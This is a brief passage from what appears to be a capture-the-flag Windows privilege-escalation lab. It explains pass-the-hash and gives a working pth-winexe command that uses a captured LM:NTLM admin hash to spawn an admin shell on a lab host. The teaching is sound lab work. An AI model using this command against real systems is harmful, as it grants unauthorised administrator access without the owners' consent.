 Why crack a password hash when you can authenticate using the hash?

Use the full admin hash with pth-winexe to spawn a shell running as admin without needing to crack their password. Remember the full hash includes both the LM and NTLM hash, separated by a colon:

```
pth-winexe -U 'admin%hash' //10.10.212.141 cmd.exe
```

Answer the questions below

Read and follow along with the above.
